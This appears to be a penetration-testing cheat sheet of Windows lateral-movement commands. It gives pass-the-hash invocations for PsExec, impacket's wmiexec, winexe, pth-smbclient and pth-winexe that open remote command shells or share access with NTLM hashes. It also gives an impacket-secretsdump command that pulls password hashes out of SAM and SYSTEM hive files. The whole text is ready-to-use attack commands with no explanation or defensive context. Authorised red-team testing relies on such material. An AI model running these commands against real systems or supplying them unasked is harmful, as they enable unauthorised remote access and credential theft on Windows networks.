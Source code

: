 # pass the hash (psexec.exe)

```cmd
.\PsExec.exe -accepteula -u <administrator/user> -p <lmhash>:<ntlmhash> cmd.exe
```

# pass the hash (wmiexec)

```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes <lmhash>:<ntlmhash> <user>@<rhost> cmd.exe
```

# pass the hash (winexe)

```
winexe -U '<administrator/user>%<lmhash>:<ntlmhash>' //<rhost> cmd.exe
```

# pass the hash (smb; pth-smbclient)

```bash
pth-smbclient //<rhost>/<share(c$)> -U <PCNAME>/<user>%<lmhash>:<ntlmhash>
```

# pass the hash (pth-winexe)

```
pth-winexe -U <Administrator/user>%<lmhash>:<ntlmhash> //<rhost> cmd.exe
```

# get hashes from sam

```
impacket-secretsdump -sam sam -system system LOCAL
```
